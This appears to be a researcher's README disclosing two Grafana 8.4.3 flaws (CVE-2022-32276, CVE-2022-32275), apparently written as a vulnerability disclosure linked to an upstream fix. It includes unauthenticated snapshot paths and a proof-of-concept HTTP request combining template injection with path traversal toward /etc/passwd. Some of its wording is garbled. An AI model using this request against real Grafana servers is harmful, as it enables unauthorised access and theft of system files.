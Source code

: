 # grafana
grafana 8.4.3 (b7d2911ca), 
works on 8.5.5 ( tested for @TheFrenchGhosty )

# First point - CVE-2022-32276

## Unauthenticated and authenticated users can send a false request for snapshot query using random key parameters, having access to the system dashboard area by going through the login page.
•	Rated version: 8.4.3 (b7d2911ca)
•	
Access the system the user is directed to the system home page, as image 1
![image](https://user-images.githubusercontent.com/28454566/171639021-9b0da9c7-837d-4f86-be73-a123eae5de9b.png)

Image 1: login form 


It has been verified that an unauthenticated user knowing the vulnerable directories can enter random ID value which allows unauthenticated access to the hospitalized system pages.
Parameter used:
/dashboard/snapshot/*?orgId=0
/invite/:
![image](https://user-images.githubusercontent.com/28454566/171639130-8e408037-3e65-4b15-a679-88e2f1987aea.png)

Image 2: Unauthenticated access to snapshot list

![image](https://user-images.githubusercontent.com/28454566/171639178-52a2f5d5-f57c-49b9-9258-2f60a3b6403a.png)

Image 3: Unauthenticated access to the dashboard menu


![image](https://user-images.githubusercontent.com/28454566/171639388-3b17937c-e1f5-448f-b5cb-f26722af95f9.png)

Image 4: Unauthenticated access to the filter menu


# Second point - CVE-2022-32275

##
•	Rated version: 8.4.3 (b7d2911ca)
•	Injection of parameters in http request.
## The failure is not a path traversal, but a session control failure. When the traversal path is explored, the authentication system redirects to an internal system page that should only be accessed by authenticated users.

![image](https://user-images.githubusercontent.com/28454566/171640044-cf2029dc-8598-44f9-87ed-c6c09a152212.png)

Image 5: login form 



Viewing the request in burpsuite
![image](https://user-images.githubusercontent.com/28454566/171640173-5795e0b0-0f31-4cac-8ae5-5d413b0637d1.png)

Image 6: Intercepting the request by burpsuite


Change the request by adding /{{constructor.constructor'/.. /.. /.. /.. /.. /.. /.. /.. /etc/passwd?orgId=1 , encode : /dashboard/snapshot/%7B%7Bconstructor.constructor'/.. /.. /.. /.. /.. /.. /.. /.. /etc/passwd?orgId=1 HTTP/1.1



![image](https://user-images.githubusercontent.com/28454566/171640263-15364ef7-8741-40e2-98dd-dee80b44b28d.png)

Image 7: Request changed before submission to server


![image](https://user-images.githubusercontent.com/28454566/171640314-914a29f3-2f98-4ff2-9dc7-eaf7896e1d56.png)


Image 8: Data returned from the tampered request



### POC 2
Send the request to the Burpsuite Repeater  function and change the request header to:

```
GET /dashboard/snapshot/%7B%7Bconstructor.constructor'/.. /.. /.. /.. /.. /.. /.. /.. /etc/passwd?orgId=1 HTTP/1.1
Host: <grafana_host>:3000
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:99.0) Gecko/20100101 Firefox/99.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-BR,en;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
Connection: close-up
Upgrade-Insecure-Requests: 1
Pragma: no-cache
Cache-Control: no-cache
```



![image](https://user-images.githubusercontent.com/28454566/171640452-7d292f9f-c35e-4067-b199-2ae9dea9ecbd.png)

Image 9: Changing the request in the repeater function.


![image](https://user-images.githubusercontent.com/28454566/171640507-360ce5d1-4486-4f29-adc4-a047e5655bfc.png)


Image 10: Unauthenticated access 



## References:
<li>https://cwe.mitre.org/data/definitions/1345.html</li>
<li>https://cwe.mitre.org/data/definitions/284.html</li>
<li>https://cwe.mitre.org/data/definitions/552.html</li>
<li>https://cwe.mitre.org/data/definitions/548.html</li>
<li>https://cwe.mitre.org/data/definitions/706.html</li>
<li>https://owasp.org/www-pdf-archive/OWASP_SCP_v1.3_pt-BR.pdf</li>

#### Just for information, the failure pointed out generated task 53051 (https://github.com/grafana/grafana/pull/53051) which was completed by the grafana team and ended on 08/01/2022
<li>https://github.com/grafana/grafana/pull/53051</li>
</ol>


